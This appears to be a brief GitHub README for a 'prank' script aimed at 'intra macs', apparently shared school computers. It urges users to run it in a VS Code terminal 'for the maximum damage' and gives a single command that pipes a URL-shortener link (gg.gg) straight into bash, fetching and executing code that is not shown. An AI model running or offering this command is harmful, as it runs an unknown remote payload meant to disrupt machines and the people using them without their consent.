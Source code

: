 # It's just a prank bro :

Simple script for intra macs
Make sure to maximize the visual studio window and run it in vs code terminal for the maximum damage.

Simply run this command :

```
curl -L http://gg.gg/elRambeau | bash
```
